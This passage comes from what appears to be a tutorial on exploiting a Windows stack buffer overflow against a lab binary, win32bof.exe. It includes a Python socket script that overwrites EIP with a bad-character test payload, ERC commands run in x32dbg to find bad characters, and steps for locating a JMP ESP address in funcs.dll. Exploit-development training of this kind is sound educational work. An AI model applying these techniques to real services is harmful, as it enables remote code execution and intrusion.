 ```
	])
	offset = 469
	buffer = b"A"*offset
	eip = b"B"*4
	payload = buffer + eip + all_chars
	
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((IP, port))
	s.send(payload)
	s.close()

bad_chars()
```
We can then restart the binay in x32dbg and run our script.
We have to check out for bad chars using ESP address and the ByteArray file generated with ERC
  ![ESP address](../.res/image56.png)  
```
ERC --compare 016EFB60 C:\Users\User\working-dir\ByteArray_1.bin
```

We are now able to compare every char using the table  
  ![ESP address](../.res/image67.png) 

In our example for example we can see that 0x00 seems to be a bad char. So we have to repeat this same process again and remove 0x00 from our list.
To get the new list we can use ERC again and specify to remove 0x00 `ERC --bytearray -bytes 0x00`
We do this again and again until we do not have any bad chars anymore.

### 4. Finding a return Instruction

We can use ERC to list modules: `ERC --ModuleInfo`

We need to find one with all protections set to false:  
  ![ESP address](../.res/image90.png)  
In our example we can use win32bof.exe or funcs.dll
We can search for JMP ESP or CALL ESP We go to the symbols tab and click on the line win32bof.exe as it was in the list
Then we can do ctrl+f to search for jmp esp
We have no results so we will try with funcs.dll
We have an address:
  ![ESP address](../.res/image2.png)  
